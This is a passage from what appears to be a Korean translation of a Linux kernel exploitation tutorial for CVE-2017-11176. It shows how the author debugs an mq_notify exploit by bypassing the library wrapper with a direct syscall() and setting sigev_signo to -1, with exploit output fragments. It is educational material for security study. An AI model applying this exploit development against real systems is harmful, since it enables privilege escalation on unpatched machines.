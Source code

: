 그럼에도 불구하고, *fget()* 에 대한 첫 번째 호출은 잘 작동했다. 게다가 *netlink\_getsockbyflip()* 과 *netlink\_attachskb()* 도 잘 동작했다! 우리가 어떤 *AF\_NETLINK* 소켓도 생성한 적이 없기 때문에 이것도 이상한 일이다.

실제로 실패한 것은 **두 번째 *fget()***인데 이는 우리가 *mq\_notify()* 의 첫 인자를 "-1"로 설정했기 때문이다. 그래서 뭐가 문제인가?

뒤로 돌아가서 **sigevent** 포인터를 출력해보고, syscall에 전달된 값과 비교해보자.

```c
  printf("sigev = 0x%p\n", &sigev);
  if (mq_notify((mqd_t) -1, &sigev))
```

```plaintext
-={ CVE-2017-11176 Exploit }=-
sigev = 0x0x7ffdd9257f00        // <------
mq_notify: Bad file descriptor
exploit failed!
```

```
(18652-18652) [SYSCALL] ==>> mq_notify (-1, 0x7ffdd9257e60)
```

*mq\_notify()* syscall로 전달된 구조체와 우리가 익스플로잇에서 준 구조체가 명백하게 다르다. 이것은 *system tap*에 문제가 있거나(가능한 일이다) 아니면...

**... 몇 몇 library wrapper에 당한 것이다!**

이를 바로잡아 *mq\_notify* 를 **syscall()** syscall을 통해 호출해보자.

우선 다음 헤더와 우리의 *자체* wrapper를 추가한다:

```c
    #define _GNU_SOURCE
    #include <unistd.h>
    #include <sys/syscall.h>

    #define _mq_notify(mqdes, sevp) syscall(__NR_mq_notify, mqdes, sevp)
```

이제 syscall을 직접 사용하므로 Makefile의 "-lrt" 부분을 지워준다.

0이 유효한 file descriptor이므로 *sigev\_signo* 값을 명시적으로 '-1'로 설정하고 wrapper를 사용한다:

```c
      int main(void)
      {
        // ... cut ...

        sigev.sigev_signo = -1;

        printf("sigev = 0x%p\n", &sigev);
        if (_mq_notify((mqd_t)-1, &sigev))

        // ... cut ...
      }
```

그리고 실행해보자:
